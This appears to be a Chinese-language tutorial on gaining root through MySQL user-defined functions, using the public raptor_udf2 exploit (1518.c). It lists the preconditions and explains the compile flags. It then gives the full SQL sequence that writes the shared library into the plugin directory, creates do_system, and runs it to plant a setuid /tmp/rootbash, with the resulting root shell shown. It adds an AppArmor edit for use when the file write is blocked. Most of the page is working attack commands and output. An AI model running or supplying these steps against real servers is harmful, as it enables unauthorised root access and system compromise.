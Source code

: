 udf，即user-defined Function（用户自定义函数）的缩写，在数据库系统中，用户自定义函数允许用户创建自己的函数，这些函数可以在sql查询中使用，类似于内置函数。通过UDF，用户可以对数据库执行自定义操作，从而满足特定业务需求。
这是mysql本身就有的功能，不是利用，也不用扫描特定的设定

## 提权条件
1.掌握mysql的数据库账户，该账户对mysql拥有增删改查权限，以创建和使用函数。

2.
show variables like '%secure_file_priv%';
secure_file_priv为空，mysql登录后 show variables like '%secure_file_priv%';
secure_file_priv是mysql系统变量，他有两个功能。一是用于控制load data，select ... into outfile和 load_file()等文件操作的范围。二是可以限制这些操作在特定目录下进行，以增强服务器的安全性。
当secure_file_priv设置为一个非空目录路径时，这些操作允许在指定目录下进行。这可以防止潜在的安全漏洞，如未经授权的文件访问或文件写入。
如果secure_file_priv设置为/var/lib/mysql-files/，这意味着文件操作只能在/var/lib/mysql-files/目录下进行，如果secure_file_priv设置为''，那么就存在安全风险。
3.
show variables like '%plugin%'; 
自定义函数将会存在这个目录下，查看plugin的目录是什么，方便后面指定



## 1518.c
参考1518.c

 * Usage:
 * $ id
 * uid=500(raptor) gid=500(raptor) groups=500(raptor)
 * $ gcc -g -c raptor_udf2.c
 * $ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
 * $ mysql -u root -p
 * Enter password:
 * [...]
 * mysql> use mysql;
 * mysql> create table foo(line blob);
 * mysql> insert into foo values(load_file('/home/raptor/raptor_udf2.so'));
 * mysql> select * from foo into dumpfile '/usr/lib/raptor_udf2.so';
 * mysql> create function do_system returns integer soname 'raptor_udf2.so';
 * mysql> select * from mysql.func;
 * +-----------+-----+----------------+----------+
 * | name      | ret | dl             | type     |
 * +-----------+-----+----------------+----------+
 * | do_system |   2 | raptor_udf2.so | function |
 * +-----------+-----+----------------+----------+
 * mysql> select do_system('id > /tmp/out; chown raptor.raptor /tmp/out');
 * mysql> \! sh
 * sh-2.05b$ cat /tmp/out
 * uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm)
 * [...]

## 准备利用文件
```bash
gcc -g -c raptor_udf2.c -fPIC
```
1.  -g ：这个选项会生成调试信息，使得你可以在调试器（如GDB）中调试编译后的程序。生成的调试信息包含源代码行号、局部和全局变量信息等。
2.  -c ：选项指示编译器仅编译源代码，但不进行链接。编译器将生成一个目标文件（object file），通常具有.o 扩展名。这对于将多个源文件分别编译成目标文件，然后链接为一个可执行程序或库很有用。
3.  -fPIC ：这个选项告诉编译器生成位置无关代码（Position-IndependentCode，PIC）。这种代码可以在内存中的任何位置执行，这对于创建共享库（如动态链接库）非常有用，因为它们可以被多个程序在运行时共享。

```bash
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

## 利用过程
```sql
 mysql> use mysql;
 mysql> create table foo(line blob);
 mysql> insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
 mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
 mysql> create function do_system returns integer soname 'raptor_udf2.so';
 mysql> select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
+------------------------------------------------------------------+
| do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash') |
+------------------------------------------------------------------+
|                                                                0 |
+------------------------------------------------------------------+
1 row in set (0.00 sec)
mysql> exit
Bye
user@debian:~/tools/mysql-udf$ ls /tmp
backup.tar.gz  out  rootbash  useless
user@debian:~/tools/mysql-udf$ /tmp/rootbash
rootbash-4.1$ whoami
user
rootbash-4.1$ exit
exit
user@debian:~/tools/mysql-udf$ /tmp/rootbash -p
rootbash-4.1# 
```


## 说明
1.  show variables like '%plugin%';  不同的数据库版本，这个路径有差别，所以要提权查询，备用。
2. `create table foo(line blob);` 是什么意思: 这个命令是用于创建一个名为 "foo" 的表（table），该表包含一个名为 "line" 的列（column），数据类型为 BLOB。BLOB 表示 "Binary Large Object"，它
可以存储大量的二进制数据，如图像、音频、视频等等。因此，这个命令创建了一个包含一个BLOB 列的表。
3. "foo" 在计算机编程和网络领域中是一个常用的占位符名称。它通常用于表示示例代码或未指定的变量、函数、对象或表。在这个上下文中，我们在创建一个名为 "foo" 的表。"foo" 本身没有特定的意义，它只是一个通用的名字，用于说明如何创建一个表。在实际应用中，您可能会根据您的需求为表选择一个更具描述性的名称。
4.  create function do_system returns integer soname 'raptor_udf2.so';  这项操作，一般是找plugin目录中的.so文件的。
5. 如果dumpfile失败，对于 AppArmor（如果您使用的是基于 Debian 的系统，如 Ubuntu），编辑`/etc/apparmor.d/usr.sbin.mysqld`  文件，找到以下行：`/usr/sbin/mysqld {` ，在此行下方添加以下内容：`/usr/lib/mysql/plugin/** rw,`
6. 删除mysql函数的命令：DROP FUNCTION IF EXISTS do_system;
7. 查询已有udf：SELECT * FROM mysql.func;